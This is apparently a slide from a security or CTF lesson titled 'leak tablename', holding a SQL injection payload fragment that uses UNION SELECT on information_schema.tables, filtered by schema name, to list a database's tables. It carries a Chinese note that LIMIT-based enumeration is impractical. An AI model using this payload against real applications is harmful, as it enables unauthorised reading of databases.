

# leak tablename

UNION SELECT table_name FROM information_schema.tables
太多 table 不可能用 limit 找
WHERE table_schema='databasename'